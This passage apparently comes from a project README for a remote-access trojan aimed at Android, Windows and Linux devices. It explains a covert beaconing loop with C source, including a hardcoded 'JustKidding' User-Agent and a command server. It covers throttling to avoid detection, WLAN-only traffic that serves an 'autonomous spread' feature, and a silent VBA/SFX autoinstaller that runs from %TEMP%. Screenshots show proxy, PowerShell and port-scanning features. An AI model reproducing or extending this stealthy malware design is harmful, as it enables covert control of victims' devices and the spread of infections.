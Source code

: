 	The frequency of the requests is by default set at 5s, but it can be manipulated by the API (the server automatically makes `runFrame` slow down when there are no scheduled cmds by giving it `sleep 30` as a response), therefore, when the admin is controling a device or using it as a proxy a number of tasks will be schedules and the delay between each won't be significant, otherwise we don't want the client to keep sending frequent requests which would make it noticeable and resource consuming.

	> :warning: the API recognize whether the requests are coming from this mode from the __User-Agent: JustKidding__, so the responses to `/checkupdate.js` be compatible. Also the HTTP requests are only made while the phone is connected to **Wlan**, and there are two main reasons for that, the first is data mobile consumption which the OS will stop, the second is the autonomous spread capability (#AutoSpread)


	```C
	// void bzero(void *s, size_t n);
	#define bzero(s, n) memset((s), 0, (n))
	...
	strcat(reque, "&token=updated HTTP/1.1\r\nHost: {API_Host}\r\nUser-Agent: JustKidding\r\nConnection: close\r\n\r\n");
	char *routing = "ip route | grep wlan";
	...
	while (1){
		routingSTAT = system(routing);
		// grep exit status will only equal 0 if a wlan interface was listed
		if (routingSTAT==0){
			fd = socket_connect(argv[1], atoi(argv[2])); 
			write(fd, reque, strlen(reque));
			bzero(buffer, BUFFER_SIZE);
			...
			}
	```



3. [Client/Trojan (__Windows/Linux__)](/Clients): Unlike in the case of android here a simple python script will do. In addition, Windows version is equiped with a VBA script and SFX to make a silent autoinstaller, the trojan will be just a standalone executable that runs in the background after extracting its content inside %TEMP%.


#### Screenshots
1. HTTP proxy:
[![proxy.png](https://i.postimg.cc/QN6TWgJv/proxy.png)](https://postimg.cc/SjMsBM5G)
2. Powershell:
[![powershell.png](https://i.postimg.cc/hjB5TRc4/powershell.png)](https://postimg.cc/DWx63DSR)
3. Port scanner:
[![portscan.png](https://i.postimg.cc/J4ndbqVX/portscan.png)](https://postimg.cc/LhcTSjs4)
